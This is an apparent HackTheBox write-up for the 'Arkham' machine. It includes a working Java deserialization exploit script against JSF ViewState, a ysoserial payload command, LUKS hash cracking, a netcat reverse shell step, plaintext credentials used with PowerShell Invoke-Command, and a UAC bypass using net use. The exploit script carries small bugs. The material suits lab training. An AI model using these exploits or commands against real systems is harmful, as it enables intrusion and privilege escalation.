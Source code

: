 <p align="center">
<img src="https://github.com/cyberwr3nch/hackthebox/blob/master/writeups/assets/Arkham.png" alt='HTB_logo'>
</p>

### Description
- Accessing an anonymous smb share provides us with the `appserver.zip`
- Extracting the zip file we get an LUKS encrypted `backup` image (.img) file
- Cracking the LUKS encrypted image file we get access to the tomcat config files, where we can obtain the secret key which is used to encrypt the `javax.faces.ViewState`
- Developing a custom script to exploit the java deserialzation vulnerability in javax.faces.ViewState
- Since RCE is available via java deserialzation, reverse shell is obtained
- User txt is obtained, and a `.ost` file is obtained which is a microsoft Outlook folder
- Analyzing the folder provides us with a draft message which contains passphrase for the user batman
- Entering the PSSession as Batman internally, executing commands to obtain reverse shell as batman
- Looking at the groups batman belongs to admininstrator but the permissons are limited
- Probality of an UAC protection, bypass it to obtain root.txt

### Difficulty
Windows - Medium

### Enumeration
- Open ports `80 (http), 135 (msrpc), 139 (netbios), 445 (SMB), 8080 (http) `
- On the webpage on port 80, default IIS page is enumerated
- Moving to port 8080, a webpage from `mask.inc` is enumerated
- A link for the `subscription` is available leading to `userSubscribe.faces`
- Intercepting the request made by the userSubscribe.faces, java id, faces.View states are being passed as a parameter
- The **value** for `javax.faces.ViewState` seems like a base64 string
- A simple google search on `javax.faces.ViewState` shows the misconfiguration and a sample ViewState hash type
- The `base64`'ed ViewState value obtained from the request to the userSubscribe.faces seemed to be encrypted
- Enumerating the smb shares with `anonymous` user
- The `batshare` smb share has a appserver.zip
- Getting the file and after unzipping it `two` files have been obtained `IMPORTANT.TXT & backup.img`
- The backup.img is a `LUKS encrypted file` 
- Decrypting and mounting the luks encrypted file, some files and folders are enumerated
- In the `tomcat-stuffs` folder many config files has been enumerated
- The secret key for encoding the facelets has been obtained from the `web.xml.bak` file
- Creating a custom script to decrypt the value which was sent while making the request
- The custom script decrypts the hash obtained from faces.View 
- Generate a java serialized payloaded with [`ysoserial`](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar) with the `CommonCollections5` 
- Converting the payload.bin to a hex format and tweaking the script to get input command from the user and process the request
- Make a quick ping command working check with `tcpdump -i tun0 icmp`


### User Flag:
- With the RCE being successful and working, transfer the [netcat](https://eternallybored.org/misc/netcat/) to the machine and obtain the reverse shell as `Alfred` and user.txt is obtained
- Looking at the privs for the user alfred normal privs
- In the backup folder of alfred an backup.zip is found
- Tranfer the backup.zip file to the machine
- By unzipping it we get a `.ost` (Microsoft Outlook email Folder) file
- For accessing this file [`readpst`](https://linux.die.net/man/1/readpst#:~:text=readpst%20is%20a%20program%20that,mbox%20structure%2C%20or%20separate%20emails.) utility is used
- A mailbox file will be generated after converting the `ost` with the readpst. The mailbox file will have the extension `.mbox`
- The mailbox file will be difficult to read, hence making use of the [`evolution`](https://rc.partners.org/kb/article/2702) `evolution Draft.mbox`
- With the opening of the evolution, the mail to `batman` from `alfred` is avilable showing the picture of the batman's password
- Using it in the smbshare shows that we have minimal access than the user alfred
- Try executing the commands as the batman within the computer with [Invoke-Command](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command?view=powershell-7#example-2--run-a-command-on-a-remote-server), Running the command as the desired user

### Root Flag:
- Obtaining the reverse shell as batman, enumerating the admininstrator group,  batman belongs to admininstrator group
- Enumerating all the privs available for the batman, shows that he belongs to the admininstrator group but the priviledges are less
- Navigating to 'C:\Admininstrator' is successful but not listable
- So there might be `UAC` implemented which needs to be bypassed

#### Way 1:
- By using the `net use` command to map the desired disk to the share (its can be a share which doesnt exists)
- Navigating to the mapped drive, the root.txt can be obtained

#### Way 2:
- Create a dll and escalate to an interactive process, [blog](https://egre55.github.io/system-properties-uac-bypass/)
- fin

### Commands

```bash
# decrypting the luks encrypted img file
# gather information on the luks image
cryptsetup luksDump backup.img

# payload offset -> Note it

# gathering headers, dd is a utility for converting and copying files
# dd inputfile(if=) outputfile (of=) blocksize (bs=512) count{payloadOffset+1} (count=)

dd if=backup.img of=arkham-luks bs=512 count=4097

hashcat -m 14600 arkham-luks /opt/wordlists/rockyou.TXT
# luks encryption might take a while to crack,password: batmanforever

# mounting the LUKS encrypted backup image file
cryptsetup luksOpen backup.img arkham
# passphrase for backup.img: batmanforever

# the opened backup.img with the name of arkham will be found in /dev/mapper
ls /dev/mapper
mount /dev/mapper/arkham /mnt 
```

```python
# vi exploit.py
'''
The secret key which is used to encrypt the faces.View parameter has been obtained
The default encryption algorithm used by the apache facelets is DES
This can be obtained from the documentation of apache myfaces
The value 'or.apache.myfaces.ALGORITHM' specifies the type of algorith of the secret key. If its not mentioned in the source then it will take up the default algorithm which is  which is DES
DES is decrypted with the pyDes module
when executing the script the without adding null characters the script resulted in error, stating that the hash should be a miltiple of 8 bytes
But the length of the bytes we have is 92, need four more characters to deocde
adding a byte code of null bytes to the faces.View hash we can decrypt the hash
'''


from base64 import b64decode, b64encode
from hashlib import sha1
import pyDes, hmac
import requests

url = "http://10.10.10.130:8080/userSubscribe.faces"

# opening the created payload for reading in the binary format, passing the read value to the encrypting function
def create_payload():
	payload = open('payload.bin', 'rb').read()
	return encrypt_payload(payload)

# the encryption function, is loaded with the secret key, padding mode from DES. The payload is then encrypted with sha1.
# The final encrypted sha1 payload is encoded with the base64 and is passed to the create_payload() since it returns the value
def encrypt_payload(payload):
	key = b64decode("SnNGOTg3N10=")
	obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
	enc = obj.encrypt(payload)
	hash_val = (hmac.new(key, bytes(enc), sha1).digest())
	paylaod = enc + hash_val
	return b64encode(payload)

# decrypt function to check the correct padding and working of the script
def decrypt_view_state(view_state):
	key = b64decode("SnNGOTg3N10=")
	obj = pyDes.des(key, pyDes.ECB, padmode=pyDes.PAD_PKCS5)
	view_state = b64decode(view_state)
	view_state = view_state + b'\x00\x00\x00\x00' # adding four null bytes for padding 
	dec = obj.decrypt(view_state)
	return dec
# print(decrypt_view_state({javax.faces.ViewState hash}))

# making a  request to the webpage with the parameter we want our payload to be, makes the req and makes RCE
# the create_payload() is descripted above, the payload is passed as the data
def exploit():
	view_state = create_payload()
	data = {'javax.faces.ViewState': view_state}
	requests.post(url=url_, data = data)

exploit()
```

```bash
# generating serialized payload
java -jar ysoserial-master-SNAPSHOT.jar CommonCollections5 'cmd /c ping -n 1 10.10.14.3' > payload.bin
```

```bash
# transfering the backup.zip with certutil, certuil converts it into base64
certuil -encode backup.zip C:\\windows\\temp\\backup.b64
```

```bash
# running the command as the user batman
$pass = ConvertTo-SecureString 'Zx^#QZX+T!123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("batman", $pass)
Invoke-Command -Computer ARKHAM -ScriptBlock {whoami} -Credential $cred
# computer name enumerated from the "hostname" command

# try in pwsh / internal powershell
Invoke-Command -ComputerName ARKHAM -Credential ARKHAM\Batman -ScriptBlock { Get-Culture }

```

```bash
# UAC Bypass with net use
# The drive z is not available 
net use Z:\ \\127.0.0.1\c$

z:
type users\admininstrator\Desktop\root.txt
```

